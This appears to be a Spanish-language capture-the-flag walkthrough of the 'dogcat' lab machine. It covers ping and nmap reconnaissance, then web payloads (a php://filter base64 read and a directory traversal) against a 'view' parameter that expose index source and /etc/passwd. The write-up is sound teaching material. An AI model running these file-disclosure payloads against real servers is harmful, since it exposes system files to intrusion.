 ### Ping
```python
ping -c 1 10.10.183.95
PING 10.10.183.95 (10.10.183.95) 56(84) bytes of data.
64 bytes from 10.10.183.95: icmp_seq=1 ttl=63 time=252 ms

--- 10.10.183.95 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 251.536/251.536/251.536/0.000 ms
```
###### TTL=63 Maquina Linux

### nmap
```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: dogcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.48 seconds
```

| PORT   | STATE | SERVICE | VERSION                                                      |
| ------ | ----- | ------- | ------------------------------------------------------------ |
| 22/tcp | open  | ssh     | OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0) |
| 80/tcp | open  | http    | Apache httpd 2.4.38 ((Debian))                               |
### Enumeración del puerto 80

![[Pasted image 20240228172752.png]]
###### al hacer click en los botones las imagenes y los gatos son aleatorios. tambien tenemos un = por lo que podemos intentar un PATH traversal
![[Pasted image 20240228173259.png]]
###### ok parece que están sanetizando de alguna manera este archivo así que vamos a intentar baypasearlo con una técnica de direcroty traversal 
```python
/?view=php://filter/read=convert.base64-encode/resource=./dog/../index
```
este comando nos ayuda a hacer el llamado al recurso y encodearlo en base64 
![[Pasted image 20240228174008.png]]
###### esta respuesta nos afierma que es vulnerable a esta inyeccion asi que probamos el siguiente
```python
/?view=./dog/../../../../../../../etc/passwd&ext=
```

![[Pasted image 20240228174831.png]]
###### perfecto. miramos el codigo fuente
![[Pasted image 20240228175200.png]]
###### parece que podemos ver el archivo /etc/passwd 
